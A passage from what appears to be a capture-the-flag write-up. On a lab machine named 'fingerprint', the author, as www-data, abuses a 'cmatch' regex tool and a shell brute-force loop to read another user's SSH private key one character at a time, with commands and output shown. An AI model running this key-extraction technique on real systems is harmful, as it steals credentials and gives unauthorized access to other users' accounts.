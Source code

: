 The next line is 22 bytes long:

```

www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN.{21}\n.{40}'
Found matches: 0
www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN.{21}\n.{30}'
Found matches: 0
www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN.{21}\n.{20}'
Found matches: 1
www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN.{21}\n.{25}'
Found matches: 0
www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN.{21}\n.{22}'
Found matches: 1
www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN.{21}\n.{23}'
Found matches: 0

```

Just knowing the length isn’t enough. But it does show that I can build a string and test one character at a time.

For example, I’ll use this simple loop to look for the first character of the second line:

```

python -c "import string; print('\n'.join(string.ascii_letters))" 
| while read c; do 
    cmatch /home/john/.ssh/id_rsa "^-----BEGIN.{21}\n${c}" 
    | grep -qv "Found matches: 0" && echo $c; 
done

```

The Python command will print the ascii letters one per line. The `while` will read them into `c`, and then I’ll run `cmatch`. The result removes the string for no matches, and if something else if found (`grep` returns success), it will echo the character. It works!

```

www-data@fingerprint:/$ python -c "import string; print('\n'.join(string.ascii_letters))" | while read c; do cmatch /home/john/.ssh/id_rsa "^-----BEGIN.{21}\n${c}" | grep -qv "Found matches: 0" && echo $c; done 
P

```

The first character is P. I can add “P” to the regex and check the next characters:

```

www-data@fingerprint:/$ python -c "import string; print('\n'.join(string.ascii_letters))" | while read c; do cmatch /home/john/.ssh/id_rsa "^-----BEGIN.{21}\nP${c}" | grep -qv "Found matches: 0" && echo $c; done 
r
www-data@fingerprint:/$ python -c "import string; print('\n'.join(string.ascii_letters))" | while read c; do cmatch /home/john/.ssh/id_rsa "^-----BEGIN.{21}\nPr${c}" | grep -qv "Found matches: 0" && echo $c; done 
o

```
